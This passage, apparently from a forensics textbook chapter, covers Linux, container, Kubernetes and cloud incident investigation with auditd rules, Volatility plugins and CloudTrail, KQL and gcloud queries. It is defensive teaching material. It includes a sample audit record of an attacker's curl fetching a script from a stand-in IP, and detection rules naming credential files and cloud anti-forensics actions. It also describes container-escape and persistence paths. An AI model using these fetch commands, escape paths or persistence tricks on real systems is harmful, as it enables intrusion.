awk -F: '($7 !~ /(nologin|false)/){print $1" -> "$7}' /etc/passwd   # accounts with real shells
ls -la /etc/passwd /etc/shadow /etc/group /etc/sudoers      # mtime vs incident window
cat /etc/passwd- /etc/shadow-                               # the backup copies — pre-change state!
diff <(sort /etc/passwd) <(sort /etc/passwd-)               # exactly what changed
for f in /home/*/.ssh/authorized_keys /root/.ssh/authorized_keys; do
  echo "== $f"; ssh-keygen -lf "$f" 2>/dev/null; done
cat /etc/sudoers; ls -la /etc/sudoers.d/; cat /etc/sudoers.d/*
grep -rE 'NOPASSWD' /etc/sudoers /etc/sudoers.d/
```

`/etc/passwd-` and `/etc/shadow-` (trailing hyphen) are automatic backups written by `useradd`/`passwd` **before** the change. Diffing them against the live files gives you the exact account modification, with the backup's mtime giving you the time of the change. This is one of the highest-value and least-known Linux artifacts.

`ssh-keygen -lf authorized_keys` prints the fingerprint of each key, which you match directly against the `SHA256:` value in `auth.log` — that is how you prove *which* key an attacker used and whether it is one they installed.

### 5.5 Shell profile and login hooks

```bash
ls -la /etc/profile /etc/profile.d/ /etc/bash.bashrc /etc/bashrc
tail -20 /home/*/.bashrc /home/*/.bash_profile /home/*/.profile /root/.bashrc
ls -la /etc/update-motd.d/          # every SSH login executes these as root on Ubuntu
ls -la /etc/rc.local /etc/init.d/ /etc/rc*.d/
ls -la /etc/xdg/autostart/ ~/.config/autostart/     # desktop hosts
```

`/etc/update-motd.d/` is Ubuntu-specific and frequently overlooked: those scripts run **as root on every SSH login** to generate the message of the day. A line appended to `10-help-text` is a clean, low-visibility persistence and privilege path.

---

## Part 6: Package Integrity — Proving a Binary Was Replaced

Linux has no equivalent of Windows Resource Protection, but package managers keep cryptographic hashes of every file they installed. That gives you a fast, high-confidence answer to "has a system binary been trojanised?"

**RPM-based (RHEL, CentOS, Fedora, Rocky, Alma, SUSE):**

```bash
rpm -Va                                   # verify ALL packages against the RPM database
rpm -Vf /usr/bin/ssh                      # verify the package owning this file
rpm -qf /usr/local/bin/systemd-logind-helper   # which package owns it? "not owned" = attacker-placed
```

Output is a nine-character mask, one flag per attribute:

```
S.5....T.  c /etc/ssh/sshd_config
..5....T.    /usr/bin/curl
missing      /usr/sbin/sshd
```

| Char | Position | Meaning |
|---|---|---|
| `S` | 1 | file **S**ize differs |
| `M` | 2 | **M**ode (permissions/type) differs |
| `5` | 3 | **MD5 checksum** differs — the content changed |
| `D` | 4 | **D**evice major/minor mismatch |
| `L` | 5 | **L**ink path mismatch |
| `U` | 6 | **U**ser ownership differs |
| `G` | 7 | **G**roup ownership differs |
| `T` | 8 | m**T**ime differs |
| `P` | 9 | ca**P**abilities differ |

A `5` on `/usr/bin/curl` means the binary's content no longer matches what the distro shipped. A `c` in the type column marks a config file, where changes are expected — noise. **Focus on `5` on anything that is not a config file.**

**Deb-based (Debian, Ubuntu):**

```bash
apt install debsums
debsums -c                    # list only files whose checksums FAIL
debsums -ca                   # include config files
debsums -e                    # config files only
dpkg -S /usr/local/bin/x      # which package owns it? "no path found" = not from a package
dpkg --verify                 # native verification (dpkg >= 1.17)
```

**Caveat that matters:** `rpm -Va` and `debsums` both read a local database that a root attacker can rewrite. They are excellent at catching ordinary intrusions and useless against a careful one. The trustworthy version is to compare hashes against a **clean external source** — the distro's own package repository — from your analysis workstation, not the victim:

```bash
# On your workstation, download the exact package version the host claims to have
apt-get download openssh-server=1:9.6p1-3ubuntu13
dpkg-deb -x openssh-server_*.deb ./ref
sha256sum ./ref/usr/sbin/sshd
sha256sum /mnt/evidence/usr/sbin/sshd        # compare against evidence copy
```

Also mine the package **logs** for what the attacker installed:

```bash
grep -E ' install | remove ' /var/log/dpkg.log*
zcat /var/log/apt/history.log*.gz 2>/dev/null; cat /var/log/apt/history.log
grep -E 'Installed' /var/log/dnf.rpm.log /var/log/yum.log 2>/dev/null
rpm -qa --last | head -30                     # packages sorted by install time — newest first
```

`rpm -qa --last | head` is a 5-second check that frequently ends an investigation: if `nmap`, `nc`, `socat`, or a compiler appeared on a production web server three minutes after the initial access timestamp, you have your foothold confirmed.

---

## Part 7: auditd from Scratch

`auditd` is the Linux kernel audit framework's userspace daemon and, absent a commercial EDR, the only thing that reliably answers "what executed?" on a Linux box. Because every tool gets taught from zero the first time it appears, here it is from zero.

**What it is.** The Linux kernel has an audit subsystem that can emit a record for syscalls, file accesses, and security events matching rules you load. `auditd` is the daemon that receives those records over a netlink socket and writes them to `/var/log/audit/audit.log`. It sits *below* userland, so a process cannot avoid being logged by manipulating its own environment — unlike shell history.

**Install and basic control:**

```bash
apt install auditd audispd-plugins        # Debian/Ubuntu
dnf install audit                         # RHEL family
systemctl enable --now auditd
auditctl -s                               # status: enabled, pid, backlog, lost
auditctl -l                               # list currently loaded rules
```

**Rules.** Persistent rules live in `/etc/audit/rules.d/*.rules` and are compiled into `/etc/audit/audit.rules` by `augenrules --load`. The rules every responder wants to exist:

```bash
# /etc/audit/rules.d/50-ir.rules

## Every execve on 64-bit — the single most valuable rule
-a always,exit -F arch=b64 -S execve -k exec
-a always,exit -F arch=b32 -S execve -k exec

## Identity / credential file changes
-w /etc/passwd     -p wa -k identity
-w /etc/shadow     -p wa -k identity
-w /etc/sudoers    -p wa -k identity
-w /etc/sudoers.d/ -p wa -k identity

## Persistence locations
-w /etc/cron.d/            -p wa -k persistence
-w /var/spool/cron/        -p wa -k persistence
-w /etc/systemd/system/    -p wa -k persistence
-w /root/.ssh/             -p wa -k persistence
-w /etc/ld.so.preload      -p wa -k rootkit

## Kernel module load/unload
-a always,exit -F arch=b64 -S init_module -S finit_module -S delete_module -k modules

## Outbound connections by interactive users (noisy — tune before production)
-a always,exit -F arch=b64 -S connect -F auid>=1000 -F auid!=4294967295 -k netconn

## Make the config immutable until reboot — must be the LAST line
-e 2
```

Flag anatomy:

| Flag | Meaning |
|---|---|
| `-a always,exit` | append a rule that fires on syscall **exit**, always logging |
| `-F arch=b64` | filter: 64-bit syscall table (you need b32 too on multilib systems) |
| `-S execve` | the syscall to watch |
| `-w <path>` | watch a file/directory |
| `-p wa` | permissions to watch: **w**rite, **a**ttribute change (also `r`, `x`) |
| `-k <key>` | a searchable tag — this is how you find records later |
| `-F auid>=1000` | filter on **audit UID**: the original login UID, preserved across `su`/`sudo` |
| `-e 2` | make the rule set immutable until reboot |

`auid` is the field that makes auditd forensically strong: it records who *logged in*, not who the process currently runs as. An attacker who logs in as `deploy` and escalates to root still carries `auid=1001` on every subsequent record, so you can attribute root actions to the original human account.

**Reading the log.** Raw `audit.log` is dense; use `ausearch` and `aureport`:

```bash
ausearch -k exec -i --start recent                        # -i interprets numeric IDs to names
ausearch -k exec -i --start 02/11/2027 09:00:00 --end 02/11/2027 12:00:00
ausearch -ua 1001 -i                                      # everything by audit UID 1001
ausearch -k identity -i | less
ausearch -m USER_LOGIN -sv no -i                          # failed logins
aureport --summary
aureport -x --summary                                     # executable summary — top binaries run
aureport -au -i                                           # authentication attempt report
ausearch -if /evidence/audit.log -k exec -i               # -if = analyse an offline log file
```

A single interpreted execve record:

```
type=SYSCALL msg=audit(1770801404.882:9931): arch=c000003e syscall=59 success=yes exit=0
  a0=55f3c8a2e2c0 a1=55f3c8a2c9a0 a2=55f3c8a2f180 items=2 ppid=3041 pid=3311 auid=1001 uid=0
  gid=0 euid=0 suid=0 fsuid=0 tty=pts1 ses=44 comm="curl" exe="/usr/bin/curl"
  key="exec"
type=EXECVE msg=audit(1770801404.882:9931): argc=4 a0="curl" a1="-fsSL"
  a2="http://198.51.100.7/x.sh" a3="-o/dev/shm/.kw"
```

Everything you need is here: the exact argv, the effective UID (`uid=0`), the originating login (`auid=1001`), the parent PID to walk the process tree, the tty, and a millisecond timestamp. This is the Linux answer to Windows Sysmon Event ID 1.

**Pitfalls with auditd in real incidents:**

- **Log rotation ate your window.** Defaults are `max_log_file = 8` MB with `num_logs = 5`. An execve rule on a busy host fills that in minutes. Check `/etc/audit/auditd.conf` and grab **all** of `/var/log/audit/audit.log*` immediately.
- **`lost=` in `auditctl -s` is non-zero.** Records were dropped under load; your log has holes, and you must say so in the report.
- **`-e 2` was not set**, so the attacker ran `auditctl -D` (delete all rules) and went quiet. `ausearch -m CONFIG_CHANGE` shows exactly that, and the gap itself is evidence.
- The daemon was stopped: `ausearch -m DAEMON_END` / `DAEMON_START`, or a `systemctl stop auditd` in the sudo log.

**Modern alternatives worth naming:** Microsoft's **Sysmon for Linux** (same schema as Windows Sysmon, eBPF-backed), **Falco** (CNCF runtime security, rules over syscalls and container context), **Tracee** (Aqua, eBPF), and **osquery** (SQL over system state, `SELECT * FROM processes;`). In container environments Falco is usually the better fit because its rules are container- and Kubernetes-aware, whereas auditd sees only the host's flat PID namespace.

---

## Part 8: Linux Memory Acquisition and Analysis

Chapter 4 covered memory forensics conceptually with Volatility; Linux adds one hard constraint that trips everyone up: **there is no universal profile**. Windows structures are stable per build; Linux kernel structures change with every kernel version *and* build configuration, so analysis requires a symbol file matched to the exact kernel of the acquired host.

### 8.1 Acquisition

**AVML (Acquire Volatile Memory for Linux)** — Microsoft's static, dependency-free capturer. It is the default choice on cloud instances because it is a single binary with no kernel module.

```bash
curl -sLO https://github.com/microsoft/avml/releases/latest/download/avml
chmod +x avml
./avml --compress /mnt/evidence/web01-mem.lime.compressed
./avml /mnt/evidence/web01-mem.lime          # uncompressed LiME format
sha256sum /mnt/evidence/web01-mem.lime | tee /mnt/evidence/web01-mem.sha256
```

AVML tries `/proc/kcore`, then `/dev/crash`, then `/dev/mem`, using whichever the kernel permits, and writes LiME format. Write to **removable or network storage**, never the evidence disk.

**LiME (Linux Memory Extractor)** — a loadable kernel module; the traditional method, and still the right answer where `/proc/kcore` is restricted.

```bash
git clone https://github.com/504ensicsLabs/LiME && cd LiME/src && make
insmod ./lime-$(uname -r).ko "path=/mnt/evidence/web01.lime format=lime"
# or straight over the network, touching no disk on the victim:
insmod ./lime-$(uname -r).ko "path=tcp:4444 format=lime"
#   analyst side:  nc <victim-ip> 4444 > web01.lime
```

The trade-off is real and you must record it: LiME is a kernel module, so acquisition **modifies kernel state** (module list, memory) on the very system you are imaging. `insmod` also requires a module built against that exact kernel. Note the module load in your acquisition log — a later analyst will see your module in `lsmod` output and needs to know it was yours.

Also capture, from the same host and at the same time:

```bash
uname -a > /evidence/uname.txt              # exact kernel version — you need this for symbols
cat /proc/version /etc/os-release >> /evidence/uname.txt
cat /proc/kallsyms > /evidence/kallsyms.txt # requires root; needed if you build symbols yourself
```

### 8.2 Analysis with Volatility 3

Volatility 3 needs an **ISF** (Intermediate Symbol File) — a JSON map of kernel structures — for that specific kernel build.

```bash
# 1. Check whether the community pack already has your kernel
git clone https://github.com/volatilityfoundation/volatility3
pip install -r volatility3/requirements.txt

# 2. Build an ISF if not: needs the matching debug kernel with DWARF symbols
apt install dwarfdump
git clone https://github.com/volatilityfoundation/dwarf2json && cd dwarf2json && go build
./dwarf2json linux --elf /usr/lib/debug/boot/vmlinux-6.8.0-45-generic \
  --system-map /boot/System.map-6.8.0-45-generic > ubuntu-6.8.0-45.json
cp ubuntu-6.8.0-45.json volatility3/volatility3/symbols/linux/
```

Then the plugins:

```bash
python3 vol.py -f web01.lime banners.Banners            # ALWAYS FIRST: identifies the kernel
python3 vol.py -f web01.lime linux.pslist.PsList
python3 vol.py -f web01.lime linux.pstree.PsTree
python3 vol.py -f web01.lime linux.psscan.PsScan        # scans for structs -> finds hidden procs
python3 vol.py -f web01.lime linux.bash.Bash            # recovers bash history FROM MEMORY
python3 vol.py -f web01.lime linux.lsof.Lsof
python3 vol.py -f web01.lime linux.sockstat.Sockstat
python3 vol.py -f web01.lime linux.lsmod.Lsmod
python3 vol.py -f web01.lime linux.check_syscall.Check_syscall   # syscall table hooks
python3 vol.py -f web01.lime linux.check_modules.Check_modules   # module list vs sysfs mismatch
python3 vol.py -f web01.lime linux.malfind.Malfind      # RWX / injected regions
python3 vol.py -f web01.lime linux.elfs.Elfs            # ELFs mapped in process memory
python3 vol.py -f web01.lime linux.proc.Maps --pid 3311
python3 vol.py -f web01.lime linux.pagecache.Files      # files cached in RAM
```

`banners.Banners` requires no symbols at all — it string-searches the image for the Linux banner — so run it first to learn exactly which ISF to fetch or build:

```
Offset  Banner
0x3f8a2 Linux version 6.8.0-45-generic (buildd@lcy02-amd64-098) (x86_64-linux-gnu-gcc-13 ...) #45-Ubuntu SMP PREEMPT_DYNAMIC
```

**The highest-value Linux memory plugins in practice:**

- `linux.bash.Bash` — recovers the in-memory history ring of every live bash process. This defeats `unset HISTFILE` entirely: the commands are in the process's heap whether or not they were ever written to disk. It has broken more Linux cases than any other single plugin.
- `psscan` vs `pslist` — `pslist` walks the kernel's linked list (which a rootkit can unlink); `psscan` scans memory for `task_struct` signatures. **Anything present in `psscan` but absent from `pslist` is a deliberately hidden process.**
- `check_syscall` / `check_modules` — direct rootkit detection via syscall-table and module-list inconsistencies.

---

## Part 9: Triage Collection with UAC

Doing Parts 2–7 by hand on twelve hosts at 3 a.m. is how mistakes happen. **UAC (Unix-like Artifacts Collector)** is the Linux/macOS/ESXi analogue of KAPE from Chapter 5: a single shell script, no dependencies beyond a POSIX shell, that runs a declarative profile of collectors and produces a hashed archive.

**What it is and why it exists.** UAC is a pure-shell live-response collector. It works on systems where you cannot install anything, it runs read-only against artifacts, and it is configuration-driven — artifacts are YAML files describing what to collect, so the collection is auditable and repeatable rather than a bespoke script per incident.

```bash
curl -sLO https://github.com/tclahr/uac/releases/latest/download/uac-3.1.0.tar.gz
tar -xzf uac-3.1.0.tar.gz && cd uac-3.1.0

./uac --help
./uac -p ir_triage /mnt/collection                # standard IR triage profile
./uac -p full /mnt/collection                     # everything, including file hashing (slow)
./uac -a artifacts/live_response/process/* -a artifacts/files/logs/* /mnt/collection
./uac -p ir_triage --hostname web01 --operating-system linux /mnt/collection
./uac -p ir_triage -m /mnt/evidence_root /mnt/collection    # -m: run against a MOUNTED image
```

Key options:

| Option | Purpose |
|---|---|
| `-p <profile>` | run a named profile (`ir_triage`, `full`, `offline`) |
| `-a <path>` | run specific artifact files/globs |
| `-m <dir>` | treat `<dir>` as the root of a mounted image (dead-box collection) |
| `--hostname` | override hostname in output naming |
| `-s` / `--sftp` | ship results straight to an SFTP destination |
| `--s3-presigned-url` | upload to cloud storage — ideal for ephemeral cloud instances |

Output is `uac-<hostname>-<os>-<timestamp>.tar.gz` plus a `.sha256`, containing a `[root]` tree of collected files, `live_response/` command output, and a `uac.log` recording every command executed and its exit status — which is what you attach to your report to show exactly what you did to the system.

The `--s3-presigned-url` option deserves emphasis for cloud work: on an autoscaled instance that may be terminated at any moment, collecting to local disk risks losing everything. Streaming the archive to object storage as it is produced is the difference between having evidence and not.

**Alternatives:** **CatScale** (a single bash script producing a folder of greppable text, favoured for its simplicity), **Velociraptor** (agent-based, offers Linux artifact packs and remote hunting at fleet scale), and **osquery** for point-in-time state queries. For a fleet, Velociraptor's hunt model beats running UAC by hand on each host.

---

## Part 10: Container Forensics — Docker

Containers break the assumption that a process's filesystem view matches the host's. You need to know where the layers actually live.



The key insight for a responder: **with the overlay2 storage driver, every file an attacker created inside a container exists as an ordinary file on the host** at `/var/lib/docker/overlay2/<layer-id>/diff/`. You do not need to enter the container to collect it — and you should not, because `docker exec` alters the container.

```bash
docker ps -a                                       # incl. exited containers
docker inspect <cid> | jq '.[0] | {Image,Created,State,Args,Mounts,Config}'
docker inspect -f '{{.GraphDriver.Data.UpperDir}}' <cid>    # exact host path of the writable layer
docker diff <cid>                                  # A=added, C=changed, D=deleted vs image
docker logs --timestamps <cid>                     # stdout/stderr
docker top <cid>                                   # host PIDs of container processes
docker history --no-trunc <image>                  # how the image was built — backdoored layer?
docker export <cid> -o /evidence/container-fs.tar  # full FS snapshot, no history
docker commit <cid> ir-snapshot:<cid>              # freeze state as an image (writes to daemon!)
```

`docker diff` is the fastest container triage command in existence:

```
A /tmp/.x
C /etc
A /etc/cron.d/rebuild
C /usr/bin
A /usr/bin/kdevtmpfsi
```

That is the attacker's entire on-disk footprint inside the container in one screen.

**Host-side artifact paths:**

| Path | Contents |
|---|---|
| `/var/lib/docker/containers/<cid>/<cid>-json.log` | all stdout/stderr, JSON-per-line with RFC3339 timestamps |
| `/var/lib/docker/containers/<cid>/config.v2.json` | image, entrypoint, env vars, created time, restart policy |
| `/var/lib/docker/containers/<cid>/hostconfig.json` | **privileged flag, mounts, capabilities, network mode** |
| `/var/lib/docker/overlay2/<id>/diff/` | the writable layer — attacker-created files |
| `/var/lib/docker/image/overlay2/imagedb/content/sha256/` | image manifests |
| `/var/lib/containerd/` | containerd state (also used by Kubernetes) |

```bash
jq -r '[.time,.stream,.log] | @tsv' /var/lib/docker/containers/<cid>/<cid>-json.log | tail -50
jq '{Privileged:.Privileged, Binds:.Binds, CapAdd:.CapAdd, NetworkMode:.NetworkMode}' \
   /var/lib/docker/containers/<cid>/hostconfig.json
find /var/lib/docker/overlay2/*/diff -newermt '2027-02-11 09:00' -type f 2>/dev/null
```

**Container escape indicators** — the checks that decide whether the incident stayed in the container or reached the host:

```bash
# From the container's config, on the host:
jq '.Privileged, .Binds, .CapAdd, .Pid' /var/lib/docker/containers/<cid>/hostconfig.json
#   Privileged: true            -> full host access, escape is trivial
#   "/var/run/docker.sock:..."  -> the container can create privileged containers = host root
#   "/:/host"                   -> host filesystem mounted in
#   CAP_SYS_ADMIN               -> escape via cgroups release_agent, among others
#   Pid: "host"                 -> host PID namespace visible

# Inside a collected container filesystem:
grep -q docker /proc/1/cgroup && echo "was containerized"
ls -la /var/run/docker.sock                 # present inside the container = escape primitive
capsh --print                               # effective capabilities
```

**Blue team usage:** because containers are supposed to be immutable, *any* write to the container layer of a production image is anomalous by definition. `docker diff` returning anything outside `/tmp`, `/var/run`, and known data paths is a stronger signal than almost any host-level heuristic — this is the basis of container drift detection.

**The forensic problem with containers:** `docker rm` deletes the writable layer, and a restarted pod discards it too. If the container is gone, the layer is gone. What survives is the runtime's own logs, the orchestrator's audit log, and the image — which is why cloud-native IR leans on Part 11 and Part 12 rather than on disk.

---

## Part 11: Kubernetes Forensics

At cluster scale, individual containers stop being useful evidence units. The authoritative record is the **API server audit log**, which captures every request to the cluster — the Kubernetes equivalent of CloudTrail.

**Where the evidence lives:**

| Source | Path / access | Value |
|---|---|---|
| API server audit log | `--audit-log-path`, often `/var/log/kubernetes/audit.log` | every API call: who, what, when, from where |
| API server / controller logs | `/var/log/pods/kube-system_kube-apiserver-*/` | control-plane errors, auth failures |
| kubelet logs | `journalctl -u kubelet` on the node | pod lifecycle, image pulls, mount events |
| Container stdout | `/var/log/pods/<ns>_<pod>_<uid>/<container>/*.log` | app output, survives container restart |
| etcd | `etcdctl snapshot save` | full cluster state incl. Secrets |
| Node filesystem | `/var/lib/kubelet/pods/<uid>/` | mounted volumes, service-account tokens |

Audit logging is **not on by default** on self-managed clusters. A minimal policy worth deploying before you need it:

```yaml
# /etc/kubernetes/audit-policy.yaml
apiVersion: audit.k8s.io/v1
kind: Policy
omitStages: ["RequestReceived"]
rules:
  - level: RequestResponse
    resources:
      - group: ""
        resources: ["pods/exec", "pods/attach", "pods/portforward", "secrets"]
  - level: Metadata
    verbs: ["create", "update", "patch", "delete"]
  - level: None
    users: ["system:kube-proxy"]
    verbs: ["watch"]
  - level: Metadata
```

`pods/exec` at `RequestResponse` level is the line that matters: it captures interactive shells into pods, which is how most hands-on-keyboard activity in a cluster manifests.

Reading the audit log:

```bash
# Interactive exec into any pod — hands-on-keyboard indicator
jq -c 'select(.objectRef.subresource=="exec")
       | {t:.requestReceivedTimestamp, u:.user.username, ip:.sourceIPs[0],
          ns:.objectRef.namespace, pod:.objectRef.name}' /var/log/kubernetes/audit.log

# Secret reads by non-system identities
jq -c 'select(.objectRef.resource=="secrets" and .verb=="get"
       and (.user.username|startswith("system:")|not))' audit.log

# Privileged pod creation — the standard escape-to-node move
jq -c 'select(.verb=="create" and .objectRef.resource=="pods"
       and (.requestObject.spec.containers[]?.securityContext?.privileged==true))' audit.log

# Anonymous or unauthenticated access
jq -c 'select(.user.username=="system:anonymous")' audit.log

# RBAC escalation
jq -c 'select(.objectRef.resource=="clusterrolebindings" and .verb=="create")' audit.log
```

Live cluster triage:

```bash
kubectl get events -A --sort-by=.lastTimestamp | tail -40
kubectl get pods -A -o wide --show-labels
kubectl get pods -A -o json | jq -r '.items[] | select(.spec.containers[].securityContext.privileged==true) | .metadata.namespace+"/"+.metadata.name'
kubectl get pods -A -o json | jq -r '.items[] | select(.spec.hostPID==true or .spec.hostNetwork==true or .spec.hostIPC==true) | .metadata.name'
kubectl auth can-i --list --as=system:serviceaccount:default:default
kubectl get clusterrolebindings -o json | jq -r '.items[] | select(.roleRef.name=="cluster-admin") | .metadata.name'
kubectl logs <pod> --previous          # logs from the CRASHED/restarted instance — often the evidence
kubectl describe pod <pod>             # image digest, node, mounts, restart count
```

`kubectl logs --previous` is the one people forget: after a container restarts, the current log is empty and the pre-restart output — where the exploit landed — is only available with that flag, and only until the next restart.

**Service-account token theft** is the dominant cloud-native lateral movement path. Every pod that mounts a token has `/var/run/secrets/kubernetes.io/serviceaccount/token` inside it; stealing it grants that service account's RBAC cluster-wide. In the audit log, the signature is a request whose `user.username` is `system:serviceaccount:<ns>:<name>` arriving from a `sourceIPs` value that is not the pod's own IP, or performing verbs the workload has no reason to perform.

---

## Part 12: Cloud Forensics — The Control Plane Is the Evidence

Now the second half of the chapter. In cloud incidents the decisive question is usually not "what ran on the box" but "what did this identity do with the API", and that record is written by the provider into a log the attacker typically cannot alter.



That diagram is the single most common cloud breach pattern, and it is fully reconstructable from CloudTrail alone: temporary credentials belonging to an EC2 instance role, used from an IP address that is not that instance's, is conclusive.

### 12.1 AWS evidence sources

| Source | What it records | Retention default |
|---|---|---|
| **CloudTrail (management events)** | every control-plane API call: who, when, from where, params, result | 90 days in Event history; indefinite if delivered to S3 |
| **CloudTrail data events** | S3 object-level (`GetObject`/`PutObject`), Lambda invokes | **Off by default — must be enabled** |
| **VPC Flow Logs** | network 5-tuples, bytes, ACCEPT/REJECT | Off by default |
| **S3 server access logs** | per-request bucket access | Off by default |
| **CloudWatch Logs** | app/OS logs shipped by the agent | as configured |
| **GuardDuty** | managed detections over the above | 90 days of findings |
| **AWS Config** | resource configuration timeline | as configured |
| **EBS snapshots** | point-in-time disk | as created |

**The two facts that shape every AWS investigation:** S3 data events are off by default (so "did they read the data?" is often unanswerable unless the org enabled them), and CloudTrail Event history keeps only 90 days (so anything older requires the S3 trail).

Querying CloudTrail from the CLI:

```bash
aws sts get-caller-identity                                    # confirm which identity YOU are using
aws cloudtrail describe-trails                                 # where are the trails delivered?
aws cloudtrail get-trail-status --name org-trail

aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=Username,AttributeValue=svc-deploy \
  --start-time 2027-02-11T00:00:00Z --end-time 2027-02-12T00:00:00Z \
  --max-results 50 --output json

aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=ConsoleLogin \
  --start-time 2027-02-11T00:00:00Z

aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=ResourceType,AttributeValue=AWS::IAM::AccessKey
```

`lookup-events` only covers 90 days and is rate-limited; for real analysis, query the S3 trail with **Athena**:

```sql
-- Every action by a specific role session, ordered
SELECT eventtime, eventsource, eventname, sourceipaddress, useragent,
       errorcode, json_extract_scalar(requestparameters,'$.bucketName') AS bucket
FROM cloudtrail_logs
WHERE useridentity.arn LIKE '%web-instance-role%'
  AND eventtime BETWEEN '2027-02-11T09:00:00Z' AND '2027-02-11T18:00:00Z'
ORDER BY eventtime;

-- Instance-role credentials used from OUTSIDE AWS  <-- the money query
SELECT eventtime, useridentity.arn, sourceipaddress, eventname
FROM cloudtrail_logs
WHERE useridentity.type = 'AssumedRole'
  AND useridentity.sessioncontext.sessionissuer.username LIKE '%instance%'
  AND sourceipaddress NOT LIKE '%.amazonaws.com'
  AND sourceipaddress NOT IN (SELECT private_ip FROM known_instances)
ORDER BY eventtime;

-- Classic post-compromise persistence and discovery actions
SELECT eventtime, useridentity.arn, eventname, sourceipaddress
FROM cloudtrail_logs
WHERE eventname IN ('CreateUser','CreateAccessKey','AttachUserPolicy','PutUserPolicy',
                    'CreateLoginProfile','UpdateAssumeRolePolicy','CreateRole',
                    'DeleteTrail','StopLogging','UpdateTrail','PutBucketPolicy',
                    'ModifySnapshotAttribute','CreateSnapshot')
ORDER BY eventtime;

-- Reconnaissance burst: many Describe/List calls from one source in a short window
SELECT sourceipaddress, useridentity.arn, count(*) AS calls,
       count(DISTINCT eventname) AS distinct_apis
FROM cloudtrail_logs
WHERE eventtime > '2027-02-11T00:00:00Z'
  AND (eventname LIKE 'Describe%' OR eventname LIKE 'List%' OR eventname LIKE 'Get%')
GROUP BY 1,2 HAVING count(*) > 200
ORDER BY calls DESC;
```

**Fields to read in every CloudTrail record:**

| Field | Why it matters |
|---|---|
| `userIdentity.type` | `IAMUser`, `AssumedRole`, `AWSService`, `Root` — `Root` usage is almost always alertable |
| `userIdentity.arn` | the exact principal; for `AssumedRole` the session name is appended |
| `userIdentity.sessionContext.attributes.mfaAuthenticated` | `"false"` on a sensitive action is a finding |
| `sourceIPAddress` | attacker IP, or an AWS service name for service-initiated calls |
| `userAgent` | `aws-cli/2.x`, `Boto3/...`, or a tool signature |
| `errorCode` | `AccessDenied` bursts = permission enumeration in progress |
| `requestParameters` / `responseElements` | what exactly was touched/created |
| `eventName` | the API action |
| `readOnly` | quickly separates recon from modification |

**`errorCode=AccessDenied` in volume is one of the best cloud detections available.** A legitimate application knows its own permissions and rarely gets denied; an attacker enumerating a stolen credential generates hundreds of denials in minutes. That pattern shows the attacker's *intent* even when every attempt failed.

**Anti-forensics in AWS:** `StopLogging`, `DeleteTrail`, `PutEventSelectors` (narrowing what is captured), and deleting the S3 log bucket. The mitigation is an **organisation trail** delivering to a **separate logging account** with Object Lock — an account compromise then cannot reach its own logs. `StopLogging` itself is logged, and it is one of the highest-severity single events in cloud security.

### 12.2 Azure and GCP equivalents

| Concept | AWS | Azure | GCP |
|---|---|---|---|
| Control-plane audit | CloudTrail | Activity Log | Cloud Audit Logs → **Admin Activity** |
| Data-plane audit | CloudTrail data events | Diagnostic settings / storage logs | Cloud Audit Logs → **Data Access** (mostly off by default) |
| Identity sign-in | CloudTrail `ConsoleLogin` | **Entra ID sign-in logs** | Cloud Identity login audit |
| Identity changes | IAM events | Entra ID audit logs | Admin Activity (IAM) |
| Network flows | VPC Flow Logs | NSG / VNet flow logs | VPC Flow Logs |
| Managed detection | GuardDuty | Defender for Cloud / Sentinel | Security Command Center |
| Disk imaging | EBS snapshot | Managed disk snapshot | Persistent disk snapshot |
| Metadata service | `169.254.169.254` (IMDSv1/v2) | `169.254.169.254` + `Metadata:true` header | `metadata.google.internal` + `Metadata-Flavor: Google` |

**Azure specifics.** Admin activity lives in the **Activity Log** (90 days in the portal — export to a Log Analytics workspace for longer), while everything identity-related is in **Entra ID sign-in and audit logs**, which are separate products with their own retention. The Microsoft 365 **Unified Audit Log** covers Exchange/SharePoint/Teams and is where business-email-compromise investigations happen. Query with KQL:

```kusto
// Sign-ins from unusual locations for a user
SigninLogs
| where TimeGenerated between (datetime(2027-02-11) .. datetime(2027-02-12))
| where UserPrincipalName == "svc-deploy@contoso.com"
| project TimeGenerated, IPAddress, Location, AppDisplayName, ResultType,
          AuthenticationRequirement, DeviceDetail.operatingSystem
| order by TimeGenerated asc

// Successful sign-in after many failures from the same IP (password spray success)
SigninLogs
| summarize fails=countif(ResultType!=0), wins=countif(ResultType==0)
    by IPAddress, UserPrincipalName, bin(TimeGenerated,1h)
| where fails >= 10 and wins > 0

// Role assignment changes
AuditLogs
| where OperationName has "Add member to role"
| project TimeGenerated, InitiatedBy, TargetResources
```

**GCP specifics.** Admin Activity logs are always on and retained for 400 days at no cost; **Data Access logs are off by default** for most services and are the ones that tell you whether objects were actually read.

```bash
gcloud logging read \
  'logName="projects/PROJ/logs/cloudaudit.googleapis.com%2Factivity"
   AND protoPayload.authenticationInfo.principalEmail="svc@proj.iam.gserviceaccount.com"' \
  --project PROJ --freshness=7d --format=json --limit=200

gcloud logging read \
  'protoPayload.methodName="google.iam.admin.v1.CreateServiceAccountKey"' \
  --project PROJ --freshness=30d
```

`CreateServiceAccountKey` is GCP's equivalent of `CreateAccessKey`: a long-lived credential minted from a compromised session, and the standard persistence move.

### 12.3 Cloud disk acquisition — EBS snapshot forensics

When you do need the disk, never touch the running instance's volume. The correct sequence:



```bash
# 1. Isolate WITHOUT terminating — preserve memory and the instance
aws ec2 modify-instance-attribute --instance-id i-0abc123 --groups sg-forensic-isolate
aws ec2 create-tags --resources i-0abc123 --tags Key=IR,Value=CASE-2027-0211-quarantine

# Revoke the role's already-issued temporary credentials (they survive isolation otherwise)
aws iam put-role-policy --role-name web-instance-role --policy-name RevokeOlderSessions \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"*","Resource":"*",
    "Condition":{"DateLessThan":{"aws:TokenIssueTime":"2027-02-11T18:00:00Z"}}}]}'

# 2. Memory first (volatile), via SSM so you never open SSH
aws ssm send-command --instance-ids i-0abc123 --document-name AWS-RunShellScript \
  --parameters 'commands=["curl -sLO https://example/avml && chmod +x avml && ./avml --compress /tmp/mem.lime.gz && aws s3 cp /tmp/mem.lime.gz s3://ir-evidence/CASE-2027-0211/"]'

# 3. Snapshot the volume
aws ec2 create-snapshot --volume-id vol-0def456 \
  --description "CASE-2027-0211 web01 root" \
  --tag-specifications 'ResourceType=snapshot,Tags=[{Key=Case,Value=CASE-2027-0211}]'

# 4. Copy into the forensics account (encrypted with the forensics KMS key)
